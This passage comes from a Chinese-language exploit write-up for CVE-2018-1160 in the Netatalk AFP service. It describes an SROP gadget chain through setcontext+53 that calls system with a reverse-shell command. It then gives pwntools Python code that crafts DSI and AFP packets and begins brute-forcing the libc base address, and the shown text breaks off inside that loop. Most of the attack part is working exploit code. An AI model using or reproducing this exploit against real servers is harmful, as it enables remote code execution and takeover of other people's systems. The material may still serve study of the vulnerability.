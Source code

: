    ![](/images/CVE-2018-1160/4.png)

4. 以上gadget在`call   QWORD PTR [rax+0x20]`这条语句中会调用传入的`setcontext+53`这个地方，即后续SROP触发的地方。

   SROP的rdi设置成system函数，参数为前面传入的反弹shell语句。

```python
from pwn import *
import struct

context.log_level = "info"
context.update(arch="amd64",os="linux")
ip = 'localhost'
port = 5566
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

def create_header(addr):
    dsi_opensession = "\x01" # attention quantum option
    dsi_opensession += chr(len(addr)+0x10) # length
    dsi_opensession += "a"*0x10+addr
    dsi_header = "\x00" # "request" flag
    dsi_header += "\x04" # open session command
    dsi_header += "\x00\x01" # request id
    dsi_header += "\x00\x00\x00\x00" # data offset
    dsi_header += struct.pack(">I", len(dsi_opensession))
    dsi_header += "\x00\x00\x00\x00" # reserved
    dsi_header += dsi_opensession
    return dsi_header

def create_afp(idx,payload):
    afp_command = chr(idx) # invoke the second entry in the table
    afp_command += "\x00" # protocol defined padding
    afp_command += payload
    dsi_header = "\x00" # "request" flag
    dsi_header += "\x02" # "AFP" command
    dsi_header += "\x00\x02" # request id
    dsi_header += "\x00\x00\x00\x00" # data offset
    dsi_header += struct.pack(">I", len(afp_command))
    dsi_header += '\x00\x00\x00\x00' # reserved
    dsi_header += afp_command
    return dsi_header


# get libc base
addr = ""
while len(addr)<6 :
    for i in range(256):
        r = remote(ip,port)
```